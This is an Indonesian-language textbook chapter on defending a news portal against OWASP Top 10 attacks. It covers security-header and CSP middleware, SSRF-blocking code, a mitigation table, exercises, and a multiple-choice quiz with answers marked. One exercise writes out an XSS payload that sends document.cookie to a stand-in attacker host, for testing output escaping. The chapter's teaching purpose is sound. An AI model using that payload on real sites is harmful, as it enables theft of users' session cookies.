

# BAB 35: MITIGASI KERENTANAN OWASP TOP 10

Bab ini membedah pertahanan keamanan siber tingkat tinggi pada portal berita NusantaraNews dalam menangkal 10 kerentanan paling kritis menurut Open Web Application Security Project (OWASP Top 10): mitigasi injeksi SQL (SQLi), Cross-Site Scripting (XSS), Server-Side Request Forgery (SSRF), Cross-Site Request Forgery (CSRF), pembatasan Content Security Policy (CSP), serta enkripsi rahasia terintegrasi.

---

## 35.1 Taksonomi Kerentanan OWASP & Vektor Serangan Portal Berita

Portal berita dengan jutaan pengunjung harian adalah sasaran empuk serangan peretasan untuk defacement politik, penyebaran hoaks, atau penambangan data pelanggan. WidyaWeb menetapkan pendekatan *Security by Design* yang secara aktif menolak vektor serangan umum pada tingkat kompilator dan middleware.



---

## 35.2 Implementasi Pertahanan Berlapis di WidyaWeb

Berikut adalah modul middleware pertahanan keamanan terpadu yang memblokir serangan SSRF pada pengunduh gambar eksternal dan menetapkan tajuk keamanan peramban yang ketat:

```widya
// Modul Pertahanan Keamanan OWASP NusantaraNews
gunakan widya::web::keamanan::{TajukKeamanan, ValidatorJaringan, SanitasiTeks};
gunakan widya::web::http::{Permintaan, Respon, StatusHTTP};
gunakan widya::jaringan::{AlamatIP};

// 1. Middleware Penguat Tajuk Keamanan HTTP (Defense in Depth)
fungsi MiddlewareTajukKeamananKetat(ctx: KonteksMiddleware, berikutnya: FungsiLanjut) -> Respon {
    tetapan nonce_acak = hasilkan_token_acak_base64(16);
    ctx.simpan_konteks("csp_nonce", nonce_acak);

    tetapan mutabel respon = berikutnya(ctx);

    // Kebijakan Keamanan Konten (Content Security Policy)
    tetapan aturan_csp = 
        "default-src 'self'; " +
        "script-src 'self' 'nonce-" + nonce_acak + "' https://cdn.nusantaranews.id; " +
        "style-src 'self' 'unsafe-inline' https://fonts.googleapis.com; " +
        "img-src 'self' https://cdn.nusantaranews.id data:; " +
        "font-src 'self' https://fonts.gstatic.com; " +
        "object-src 'none'; " +
        "base-uri 'self'; " +
        "form-action 'self'; " +
        "frame-ancestors 'none';"; // Mencegah Clickjacking

    respon.atur_tajuk("Content-Security-Policy", aturan_csp);
    respon.atur_tajuk("X-Frame-Options", "DENY");
    respon.atur_tajuk("X-Content-Type-Options", "nosniff");
    respon.atur_tajuk("Referrer-Policy", "strict-origin-when-cross-origin");
    respon.atur_tajuk("Permissions-Policy", "camera=(), microphone=(), geolocation=()");
    respon.atur_tajuk("Strict-Transport-Security", "max-age=63072000; includeSubDomains; preload");

    kembalikan respon;
}

// 2. Pertahanan Terhadap Server-Side Request Forgery (SSRF)
// Digunakan saat jurnalis menautkan gambar dari URL luar
fungsi UnduhGambarEksternalAman(url_target: Teks) -> Hasil<VektorByte, Galat> {
    tetapan url_terurai = UraiURL(url_target)?;
    tetapan daftar_ip = SelesaikanDNS(url_terurai.host())?;

    untuk ip di daftar_ip {
        // Blokir seluruh rentang IP privat (RFC 1918), loopback (127.0.0.1), dan cloud metadata (169.254.169.254)
        jika ip.apakah_privat() || ip.apakah_loopback() || ip.apakah_link_local() {
            cetak_peringatan("[SSRF] Upaya serangan terdeteksi: Akses ke alamat IP privat diblokir: " + ip.ke_teks());
            kembalikan Hasil::Gagal(Galat::baru("Alamat target dilarang oleh kebijakan keamanan server"));
        }
    }

    // Jika seluruh IP lolos validasi, lakukan pengunduhan dengan batas waktu ketat
    tetapan klien = KlienHTTP::baru().atur_timeout_ms(3000).jangan_ikuti_redirect();
    kembalikan klien.ambil_byte(url_target);
}
```

---

## 35.3 Analisis Efektivitas Mitigasi OWASP Top 10

Penerapan otomatisasi mitigasi pada framework WidyaWeb menutup permukaan serangan secara komprehensif.

| Kategori Kerentanan OWASP | Dampak Potensial pada Portal Berita | Mitigasi Bawaan di WidyaWeb |
| :--- | :--- | :--- |
| **A01: Broken Access Control** | Pembaca gratis mengakses artikel berbayar VIP | Evaluasi RBAC terpusat di lapisan router |
| **A02: Cryptographic Failures** | Kebocoran kata sandi jurnalis | Hashing Argon2id + JWT Ed25519 + TLS 1.3 murni |
| **A03: Injection (SQLi / XSS)** | Peretas menyedot database atau menyuntikkan skrip | Kueri SQL berparameter native + Auto-Escape templat |
| **A05: Security Misconfiguration** | Pemaparan halaman galat berisi rincian kode internal | Mode produksi membungkam jejak stacktrace (*Censored Traces*) |
| **A10: SSRF (Server-Side Request Forgery)** | Pencurian kredensial instans komputasi awan AWS/GCP | Validator DNS & Pemblokiran IP Link-Local / Metadata |

---

## 35.4 Latihan Praktik & Studi Kasus

1. **Uji Penetrasi Simulasi XSS**: Uji komponen masukan komentar dengan payload `<script>document.location='http://hacker.com/?c='+document.cookie</script>` dan buktikan bahwa karakter diekstrak menjadi `&lt;script&gt;` murni tanpa dieksekusi oleh peramban.
2. **Mitigasi Serangan Clickjacking**: Verifikasi bahwa penetapan tajuk `X-Frame-Options: DENY` dan `frame-ancestors 'none'` berhasil menggagalkan upaya penyematan situs NusantaraNews di dalam elemen `<iframe>` situs jahat.
3. **Penyusunan Whitelist Domain Aman untuk Fitur Embed Media**: Rancang parser konten naskah yang hanya mengizinkan penyematan frame video dari domain terverifikasi resmi (seperti `youtube.com`, `vimeo.com`, dan `spotify.com`).

---

## 35.5 Evaluasi Mandiri Pilihan Ganda

1. Kebijakan tajuk HTTP apa yang memberi instruksi kepada peramban perihal dari domain mana saja skrip, gambar, dan gaya CSS boleh dimuat dan dieksekusi?
   - A. Content-Security-Policy (CSP)
   - B. Server
   - C. Accept-Encoding
   - D. Content-Language

2. Serangan di mana peretas memanipulasi peladen backend agar melakukan permintaan HTTP internal ke jaringan lokal rahasia (seperti endpoint metadata AWS `http://169.254.169.254`) disebut:
   - A. Server-Side Request Forgery (SSRF)
   - B. Distributed Denial of Service (DDoS)
   - C. Cross-Site Scripting (XSS)
   - D. Phishing Email

3. Mengapa teknik sanitasi karakter dengan konversi entitas HTML (`<` menjadi `&lt;`, `>` menjadi `&gt;`) sangat efektif menangkal serangan *Cross-Site Scripting* (XSS)?
   - A. Peramban akan memperlakukan karakter tersebut sebagai teks biasa yang dicetak di layar dan bukan sebagai tag eksekusi kode HTML/JavaScript
   - B. Mematikan sambungan internet komputer pembaca
   - C. Mengubah warna tulisan menjadi transparan
   - D. Menghapus rekod pengguna dari tabel basis data

4. Nilai parameter `frame-ancestors 'none'` pada Content Security Policy berfungsi untuk mencegah serangan apa?
   - A. Clickjacking (Penyisipan situs web di dalam iframe transparan untuk memperdaya klik pengguna)
   - B. Kerusakan prosesor komputer
   - C. Pencurian kabel telepon
   - D. Penghapusan artikel arsip

5. Alamat IP khusus `169.254.169.254` pada arsitektur penyedia komputasi awan (AWS/GCP/Azure) umumnya digunakan untuk apa?
   - A. Instance Metadata Service (IMDS) yang menyimpan informasi sensitif termasuk kredensial token akses sementara mesin virtual
   - B. Server pencarian DNS publik Google
   - C. Alamat IP modem pengguna
   - D. Server pencatat waktu dunia

6. Tajuk keamanan apa yang memerintahkan peramban untuk hanya membuka situs web melalui koneksi HTTPS yang terenkripsi dan menolak koneksi HTTP biasa selama kurun waktu tertentu?
   - A. Strict-Transport-Security (HSTS)
   - B. Cache-Control
   - C. User-Agent
   - D. Connection

7. Mengapa pengunduh media luar (*Media Fetcher*) wajib menonaktifkan fitur pengalihan otomatis (*do not follow redirects*) saat memvalidasi alamat URL tujuan?
   - A. Mencegah penyerang melewati validasi IP awal dengan cara mengarahkan (HTTP 302 Redirect) peramban ke alamat IP privat lokal terlarang setelah pengecekan lolos
   - B. Menghemat kuota bandwidth internet
   - C. Mempercepat proses cetak halaman
   - D. Menghindari pembacaan cookie

8. Tajuk `X-Content-Type-Options: nosniff` bertindak untuk:
   - A. Melarang peramban menebak atau mengubah tipe MIME berkas secara sepihak di luar yang dideklarasikan oleh peladen (*MIME sniffing prevention*)
   - B. Menghapus file gambar yang buram
   - C. Mengubah resolusi video menjadi rendah
   - D. Mematikan fitur suara peramban

9. Apa peran dari nilai kriptografis unik `nonce` dalam direktif `script-src` pada Content Security Policy?
   - A. Memastikan hanya blok skrip yang memiliki atribut nonce yang persis cocok dengan tajuk HTTP yang diizinkan dieksekusi, sehingga skrip suntikan penyerang otomatis diblokir
   - B. Mengubah font tulisan menjadi tebal
   - C. Membatasi jumlah kata dalam artikel
   - D. Mematikan koneksi database

10. Mengapa mode produksi aplikasi web dilarang keras menampilkan rincian jejak galat kode (*Detailed Stacktrace*) kepada pengguna publik saat terjadi kesalahan sistem?
    - A. Jejak stacktrace membocorkan informasi internal berharga (jalur direktori server, versi pustaka, nama tabel basis data, dan struktur kode) yang mempermudah peretas mencari celah
    - B. Menghabiskan tinta printer
    - C. Mengurangi skor SEO Google
    - D. Menghapus cookie peramban
